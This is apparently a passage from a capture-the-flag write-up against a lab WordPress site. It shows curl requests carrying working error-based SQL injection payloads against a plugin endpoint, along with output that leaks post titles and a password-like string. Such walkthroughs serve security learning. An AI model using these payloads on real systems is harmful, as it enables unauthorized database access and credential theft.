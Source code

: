 

    oxdf@parrot$ curl 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20AND%20(select%201%20from%20(select%20COUNT(*),concat((select%20mid(post_title,1,64)%20from%20wp_posts%20where%20id%20=%2068),%200x3078646666647830,%20floor(rand()*2))%20as%20a%20from%20information_schema.columns%20group%20by%20a)%20as%20x)'
    <br />
    <b>Warning</b>:  mysqli::query(): (23000/1062): Duplicate entry 'Passwords0xdffdx01' for key '&lt;group_key&gt;' in <b>/var/www.md/wp-content/plugins/lcars/lcars_db.php</b> on line <b>15</b><br />



I can pull content as well:



    oxdf@parrot$ curl -s 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20AND%20(select%201%20from%20(select%20COUNT(*),concat((select%20mid(post_content,1,64)%20from%20wp_posts%20where%20id%20=%2068),%200x3078646666647830,%20floor(rand()*2))%20as%20a%20from%20information_schema.columns%20group%20by%20a)%20as%20x)'
    <br />
    <b>Warning</b>:  mysqli::query(): (23000/1062): Duplicate entry 'Needed somewhere to put some passwords quickly

    ZxJyhGem4k338S' for key '&lt;group_key&gt;' in <b>/var/www.md/wp-content/plugins/lcars/lcars_db.php</b> on line <b>15</b><br />



I need the `mid` on the results because if too much data comes back, it
handles that as multiple lines, and breaks the error message.





